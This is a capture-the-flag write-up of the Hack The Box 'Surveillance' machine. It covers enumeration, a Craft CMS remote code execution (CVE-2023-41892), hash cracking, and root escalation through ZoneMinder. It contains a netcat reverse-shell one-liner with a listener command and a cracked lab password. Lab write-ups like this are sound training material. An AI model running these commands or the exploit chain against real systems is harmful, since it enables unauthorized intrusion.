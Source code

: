 # Surveillance


<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6acae25e-f039-4ff6-b160-876222d82942" align="center" alt="keeper-htb" />
</p>



## Introduction :

The Surveillance machine on Hack The Box presented a challenging learning opportunity. The journey involved Nmap scanning, web enumeration, and directory busting to discover an admin login on Craft CMS. Leveraging a Remote Code Execution (RCE) exploit, initial access was gained, leading to the discovery of a user named Matthew. After cracking Matthew's password, SSH access was achieved.

The privilege escalation involved MySQL credentials, "zoneminder" configurations, and a version-specific exploit using Metasploit. Despite challenges, a method to escalate privileges to root was found by manipulating the "user" parameter in zmupdate.pl. The write-up underscores the importance of thorough reconnaissance, exploit analysis, and creative problem-solving in successfully navigating the complexities of the Surveillance machine on HTB.


## Ennumiration :

We start with simple port & services scan and got two standard ports. When we access the web page, it has a specific CMS.

```bash
nmap -p- -T4 -A -sV 10.10.11.245
```

Because HTTP is an open protocol, we can verify whether a webpage can be seen in a web browser.

```bash
sudo echo "10.10.11.245 surveillance" >> /etc/hosts
```
The website appears to be experiencing difficulty locating the site. In such instances, you can resolve the issue by adding the IP and DNS name to the /etc/hosts file.

## Enumerating Directories

Now that we have access to the webpage, let's engage in directory enumeration. In this scenario, we will employ GoBuster.
```bash
gobuster dir -u http://surveillance.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.4-medium.txt -x .php,.html,.txt,.zip
```

I’ve obtained access to an admin login, and it’s running on Craft CMS.

I examined the source code of surveillance.htb/index.php and determined the version it is running.

Upon researching the version online, I discovered a proof of concept for Remote Code Execution (RCE).

## Exploit :

This Gist provides a Proof-of-Concept (POC) for CVE-2023-41892, a Craft CMS vulnerability that allows Remote Code Execution (RCE).


CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application.

POC GIST-  https://gist.githubusercontent.com/to016/b796ca3275fa11b5ab9594b1522f7226/raw/4742df53be0584c68d6f7550224948fc6709fea9/CVE-2023-41892-POC.md

You need to edit this part of the script for it to work.

```bash 
response = requests.post(url,  headers=headers, data=data, proxies={"http" : http://127.0.0.1:8080"}} 
```

It should get you a shell.

```bash 
python3 POC.py http://surveillance.htb/
```

After successfully exploit and gaining initial access using the PoC, the subsequent step involves obtaining a secure and robust shell for executing bash commands.

I found the following one-liner:

```bash

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.11.246 4444 >/tmp/f

```

— THE IP AND PORT CAN BE CUSTOMIZED ACCORDING TO USER PREFERENCES.

To elaborate:

The rm command eliminates any pre-existing file at /tmp/f.
The mkfifo command generates a named pipe at /tmp/f.
The cat | /bin/bash pipeline forms an interactive Bash shell linked to the named pipe.
The nc command initiates a network connection, channeling the entire output, including the Bash shell output, back into the named pipe.

This should result in a fully operational shell.
```bash
nc -nvlp 4444
```

During my exploration, I stumbled upon a backup directory nestled within the storage repository.

Subsequently, I proceeded to relocate or duplicate the directory, transitioning it from the storage folder to the hosted web server.

Following this relocation, I initiated a wget command to extract and retrieve the contents of the file, thereby incorporating the backup data into the current environment.

I extracted the contents of the file and examined them to locate specific credentials. Within the extracted data, I identified a user named Matthew along with an encrypted password.

To discern the hashing algorithm employed for Matthew's password, I employed Hash-Identifier. The analysis suggests that the hash might have been generated using SHA-256.


### Password:
Subsequently, I appended the hashed password to a text file and employed hashcat to initiate the password cracking process.

The password cracking operation was successful, and the decrypted password has been obtained.


```bash

Username: Matthew
Password: starcraft122490

```

I attempted it on SSH, and it worked flawlessly



## Root Privilege Escalation : 

I ran LinPEAS from my Python server to investigate credentials.

I came across MySQL credentials that appear to correspond to the database stored in the storage/backups directory.

Subsequently, I uncovered a password associated with something referred to as "zoneminder."




Upon examining the configurations linked to "zoneminder," a deeper dive into research unveiled that Zoneminder is a software primarily designed for monitoring purposes. Given its local storage, the next step involves establishing a port forward using SSH.



Once logged in, the initial checkpoint is to verify if the content can be displayed locally, a process that should yield results akin to a specific display format.


Encountering a roadblock with the default credentials "admin:admin" failing to grant access to the login page, the focus shifts towards identifying the version number. It is discerned as version 1.36.32, serving as a crucial reference point in the pursuit of potential exploits.



An available Proof of Concept (PoC) exploit for Zoneminder is explored, yet attempts to establish a connection after sending the payload prove futile.



Metasploit presents an exploit pertaining to snapshots in Zoneminder. Curiously, while the Metasploit script successfully executes, the accompanying Proof of Concept (PoC) falls short, introducing an unusual complication.



To explore potential avenues for privilege escalation, the `sudo -l` command is invoked. Subsequently, a stable shell is spawned using Python to navigate the system.



After scouring online resources, a method for escalating privileges to root is uncovered. This involves manipulating the "user" parameter within `zmupdate.pl` to input a file directory instead of a user, integrating the previously discovered password. This modified configuration is employed to execute a reverse shell script, subsequently transferred via the Python server using `wget`.



Essential to the execution of the script is the incorporation of Busybox to access the `netcat` command. Placement of the required components is flexible, but adherence to good practice recommends housing them in the `tmp` folder.



Preparation of the attacker to listen on specified ports is undertaken diligently.



Finally, the meticulously configured script is executed, paving the way for further exploration and potential actions within the system.



<hr>
</hr>

## CVE-2023-41892 :

Craft CMS serves as a platform for building digital experiences. A high-impact, low-complexity attack vector has been identified. Users utilizing Craft installations prior to version 4.4.15 are advised to update to at least this version to address the issue. The problem has been resolved in Craft CMS 4.4.15.

POC -  This POC is depending on writing webshell, so finding a suitable folder with writable permission is necessary. 
__Code__ :  


# Conclusion, 

The Surveillance machine on Hack The Box provided a valuable learning experience in penetration testing. The journey involved thorough enumeration, exploitation of Craft CMS vulnerabilities, and overcoming unexpected challenges in privilege escalation. The  highlights the importance of continuous learning, adaptability, and creative problem-solving in cybersecurity. Overall, the experience served as a practical lesson in real-world scenarios, refining essential skills for effective ethical hacking practices.


